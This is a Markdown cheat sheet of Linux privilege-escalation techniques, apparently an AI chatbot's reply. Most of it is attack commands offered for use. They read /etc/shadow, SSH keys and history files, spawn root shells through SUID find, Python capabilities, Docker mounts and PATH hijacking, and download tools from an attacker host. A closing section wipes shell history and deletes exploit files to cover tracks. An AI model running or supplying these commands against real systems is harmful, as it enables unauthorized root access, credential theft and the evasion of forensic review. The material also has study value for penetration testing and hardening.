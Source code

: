 
---

## 🔍 1. **System Information Enumeration**

```bash
uname -a
cat /etc/os-release
hostnamectl
id
whoami
sudo -l
```

---

## 📁 2. **Check File & Directory Permissions**

```bash
find / -perm -4000 2>/dev/null           # SUID files
find / -perm -2000 2>/dev/null           # SGID files
find / -writable -type d 2>/dev/null     # World-writable directories
find / -name "*.*history" 2>/dev/null    # Bash history files
```

---

## 🧪 3. **Sudo Misconfigurations**

```bash
sudo -l
```

**Exploits:**

- **Run as root without password:**
    
    ```bash
    sudo su
    sudo -i
    ```
    
- **Run specific commands (GTFOBins):**  
    If `sudo` can run a command like `less`, `vim`, `find`, `awk`, etc.:
    
    ```bash
    sudo <binary>    # Check on https://gtfobins.github.io/
    ```
    

---

## 🔓 4. **SUID Binaries**

```bash
find / -perm -u=s -type f 2>/dev/null
```

**Exploit with GTFOBins:**

```bash
# Example
/usr/bin/find . -exec /bin/sh \; -quit
```

---

## 📦 5. **Interesting Files with Credentials**

```bash
cat /etc/passwd
cat /etc/shadow     # If accessible
cat ~/.ssh/id_rsa
cat ~/.bash_history
grep -r "password" /home/* 2>/dev/null
```

---

## ⚙️ 6. **Scheduled Jobs (Cron Jobs)**

```bash
cat /etc/crontab
ls -la /etc/cron*
```

**Look for:**

- Writable scripts being run as root
    
- Output redirection to world-writable files
    

---

## 🛠️ 7. **Services & Processes**

```bash
ps aux
netstat -tulpn
```

- Look for root-owned processes you can interact with
    
- Check misconfigured services (e.g., running backups via scripts you can edit)
    

---

## 💉 8. **Kernel Exploits**

```bash
uname -r
```

Search for local exploits using [https://www.linuxkernelcves.com/](https://www.linuxkernelcves.com/) or [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

---

## 🧰 9. **Docker / LXC Escape**

Check if inside a container:

```bash
cat /proc/1/cgroup
```

If you're in a container but can run Docker on the host:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

---

## 📚 10. **Useful Tools**

Install or look for these on the system:

- `linpeas.sh`
    
- `les.sh`
    
- `linux-exploit-suggester.sh`
    
- `pspy` (for process spying)
    
- `GTFOBins`
    

---

## 🔧 11. **Writable `PATH` Abuse**

Check if user-writable directory is in `PATH`:

```bash
echo $PATH
```

Exploit:

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/fakebinary
chmod +x /tmp/fakebinary
export PATH=/tmp:$PATH
some_command     # If root executes it
```

---

## 🧠 12. **Capabilities (capsh)**

```bash
getcap -r / 2>/dev/null
```

Example:

```bash
/usr/bin/python3.8 = cap_setuid+ep
# Exploit:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

## 🧨 13. **NFS / FSTAB / Mount Privileges**

Check `/etc/fstab` and mount permissions:

```bash
cat /etc/fstab
mount
```

If you can mount with `uid=0`, you may be able to escalate.

---

## 🧼 14. **Clean-Up (Post Exploit)**

```bash
history -c
unset HISTFILE
rm -f /tmp/*exploit*
```

---

### 🚀 BONUS: Tools to Upload

```bash
wget http://<ip>/linpeas.sh
curl http://<ip>/linpeas.sh -o linpeas.sh
python3 -m http.server 80  # On your machine
```

---

Let me know if you want this as a downloadable PDF or Markdown file!
